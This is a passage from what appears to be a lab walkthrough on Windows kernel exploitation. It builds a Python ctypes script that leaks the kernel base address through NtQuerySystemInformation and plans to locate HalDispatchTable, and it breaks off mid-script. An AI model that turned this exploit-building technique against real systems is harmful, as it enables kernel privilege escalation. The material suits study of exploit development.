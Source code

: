 
It looks like we can parse this struct reasonably well with our offsets and treating it as a string with our loop. Granted this part was super confusing for me because of mystery 4 bytes, but this worked pretty reliably. We returned the names of every module. We're interested in this first entry `ntkrnlpa.exe`. That's the kernel image and if we find that in our loop, we should then go find it's base address which is held in that struct's `ULONG ImageBaseAddress` member at offset `0x4`. 

So what we'll do, is iterate over our returned struct grabbing out image names, if the image name has `ntkrnl` in the string, we will go to that struct's `0x4` offset and grab the address which spans to offset `0x8`. This can accomplished with the following loop, replacing our old loop:
```python
counter = 0
    for x in range(0,handle_num.value):
        image_name = system_information[counter + 28: counter + 284].strip("\x00")
        if "ntkrnl" in image_name:
            image_name = image_name.split("\\")[-1]
            print("[*] Kernel Type: {}".format(image_name))            
            base = c_ulong()
            memmove(addressof(base), create_string_buffer(system_information[counter + 8: counter + 12]), sizeof(base))
            kernel_base = hex(base.value)
            if kernel_base[-1] == "L":
                kernel_base = kernel_base[:-1]
                print("[*] Kernel Base: {}".format(kernel_base))
                return image_name, kernel_base
        counter += 284
```

Running this in the terminal gives me the following output:
```
C:\Users\IEUser\Desktop>python address.py
[*] Calling NtQuerySystemInformation w/SystemModuleInformation class
[*] Success, allocated 52828-byte result buffer.
[*] Result buffer contains 186 SystemModuleInformation objects
[*] Kernel Type: ntkrnlpa.exe
[*] Kernel Base: 0x82850000
```

Awesome, we actually returned the kernel image base address. We can now proceed with our plans. (I used the FuzzySec powershell script throughout this process to make sure my returned values were correct). 

That was probably the hardest part, now we need to make a few API calls to get a handle to the kernel (`LoadLibraryA`) and also we need the userland `HalDispatchTable` (`GetProcAddress`). 

We will also need to calculate the address of `HalDispatchTable` in kernel space using FuzzySec's math we already outlined. 

Let's add everything to our first script with the `send_buf` function commented out for now. We're now here:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32
ntdll = windll.ntdll

def address_find():
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation class" )
    system_information = create_string_buffer(0)
    system_information_length = c_ulong(0)
    ntdll.NtQuerySystemInformation(
        0xb,
        system_information,
        len(system_information),
        addressof(system_information_length)
    )
```